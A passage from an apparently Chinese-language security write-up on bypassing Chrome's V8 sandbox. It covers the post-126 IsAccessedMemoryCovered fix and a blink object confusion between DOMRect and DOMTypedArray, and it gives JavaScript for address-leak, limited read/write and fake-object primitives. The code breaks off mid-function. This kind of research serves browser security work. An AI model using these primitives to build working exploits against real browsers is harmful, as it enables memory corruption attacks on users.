  ![](/attachments/2024-10-09-v8-sandbox-bypass//da8f6f23-38cd-4470-ab29-c25c2cb47da1.png)

 ![](/attachments/2024-10-09-v8-sandbox-bypass//37815cd8-0433-4633-ba64-338a1b62e3a0.png)

\n ![](img/26.png) 此方法在chrome 126版本之后修复，在修复程序中添加了新的`IsAccessedMemoryCovered`函数：

 ![](/attachments/2024-10-09-v8-sandbox-bypass//06b13952-cf1b-4d21-9a1c-371f9def5d15.jpeg)

此函数先回检查目标地址是否为空，如果不是将会检查访问的目标地址是否位于沙盒内。`gV8SandboxBase`与`gV8SandboxSize`也是新添加的内容，`gV8SandboxBase`为沙盒区域的基地址，`gV8SandboxSize`则是沙盒区域的大小。

### 3.2 blink object confusion breaking sandbox

一开始提到在v8中所有的blink对象都以外部指针表索引的形式被v8 api对象所引用，虽然外部指针表受到保护无法篡改里面的内容，但是api对象是在堆中，可以篡改api对象中的`embedder fields`字段，使两个blink对象产生混淆，比如将`DOMRect` 与 `DOMTypedArray` 混淆。

`DOMRect` 对象只有四个属性：`x`、`y`、`width`、`height`，访问这些属性本质上只是对相应对象的指定偏移进行读写，如果`DOMRect` 与 `DOMTypedArray` 发生了混淆，那就可以通过`DOMRect` 中的属性字段自由控制`DOMTypedArray`对象的`backing_store`指针，该指针用于指向`DOMTypedArray`实际的数据存储区域，可以将此指针覆盖修改为其他任意64位地址指针从而实现64位地址空间读写。 先创建要被混淆的`DOMRect` 与 `DOMTypedArray`：

```js

const domRect = new DOMRect(1.1,2.3,3.3,4.4);
const node = 
	new AudioBuffer({
		length: 3000, 
		sampleRate: 30000, 
		numberOfChannels : 2
	});
const channel = node.getChannelData(0);
```

此处与上一种方法相同，同样使用sandbox构造堆读写原语，不再进行说明：

```js

const sbxMem = new Sandbox.MemoryView(0, 0xFFFFFFF8);
const sbxDV = new DataView(sbxMem);
let f_arr = [2.1, 2.2];
let d_arr = [1.1, 1.2];
let o_arr = [1, 2, 3, {}];
const d_arr_len = Sandbox.getAddressOf(d_arr)+0xC;
sbxDV.setUint32(d_arr_len, 0x1000, true);

function leak_addr(obj){
  o_arr[0] = obj;
  return utils.ftoi(d_arr[5]) & 0xFFFFFFFFn;
}

function limit_read(addr){
  set_elements(addr, 0x2n);
  return utils.ftoi(fake_obj[0]);
}

function limit_write(addr, val){
  set_elements(addr, 0x2n);
  fake_obj[0] = utils.itof(val);
}

function get_map(){
  return utils.ftoi(d_arr[2]);
}

function get_fake_obj(){
  const f_map = get_map();
  f_arr[0] = utils.itof(f_map);
```